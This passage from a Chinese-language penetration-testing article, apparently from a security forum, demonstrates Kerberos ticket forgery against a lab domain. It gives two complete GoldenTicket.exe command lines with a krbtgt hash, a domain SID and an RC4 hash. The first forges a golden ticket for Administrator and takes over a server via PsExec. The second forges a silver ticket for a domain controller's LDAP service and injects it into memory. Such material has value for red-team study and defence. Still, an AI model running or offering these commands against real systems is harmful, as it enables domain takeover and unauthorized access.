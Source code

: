 Let’s see it in action
======================

执行以下命令，伪造一个黄金票据。如下图所示，伪造票据后，成功通过 PsExec 获取目标服务器权限。

```console
GoldenTicket.exe /user:Administrator /domain:pentest.com /sid:S-1-5-21-1536491439-3234161155-253608391 /krbtgt:6b88c9ed6723e3de59eb76f5b73f6a69 /ptt
```

![](https://shs3.b.qianxin.com/attack_forum/2023/09/attach-511fc416dd6141d1d8736da392f66aa93d35c1b0.png)

执行以下命令，伪造一个目标服务器上 LDAP 服务的白银票据，并传递到内存中，如下图所示。

```console
GoldenTicket.exe /domain:pentest.com /sid:S-1-5-21-1536491439-3234161155-253608391 /target:dc01.pentest.com /rc4:8236c3452e65add7b5756945975fd883 /service:ldap /user:Administrastor /ptt
```

![](https://shs3.b.qianxin.com/attack_forum/2023/09/attach-a362439fed46d3a5de8b908e228e76dc02e5b526.png)